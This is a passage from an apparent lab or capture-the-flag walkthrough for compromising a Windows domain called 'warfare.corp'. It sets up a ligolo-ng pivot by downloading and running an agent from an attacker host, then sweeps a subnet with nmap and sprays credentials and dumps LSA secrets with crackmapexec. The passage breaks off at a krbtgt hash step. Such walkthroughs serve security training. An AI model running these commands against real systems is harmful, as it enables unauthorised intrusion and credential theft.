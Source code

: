 **Attacker:**

```bash
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert
```

**Pivot Machine:**

```bash
wget http://10.10.200.23:8000/agent
chmod +x agent
./agent -connect 10.10.200.23:11601 -ignore-cert
```

**Attacker:**

```bash
start
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
sudo ip route add 192.168.98.0/24 dev ligolo
```

### 8. Enumerate Internal Network

```bash
nmap -sn 192.168.98.0/24
ping 192.168.98.2
cat target.txt
192.168.98.2
192.168.98.15
192.168.98.30
192.168.98.120
```

### 9. Credential Spray with CME & LSA Dump

```bash
crackmapexec smb target.txt -u john -p 'User1@#$%6'
crackmapexec smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa
```

Repeat with other credentials:

```bash
crackmapexec smb target.txt -u corpmngr -p 'User4&*&*'
```

### 10. Add to /etc/hosts

```bash
192.168.98.2 warfare.corp dc01.warfare.corp
192.168.98.120 child.warfare.corp cdc.child.warfare.corp
```

### 11. Dump krbtgt Hash
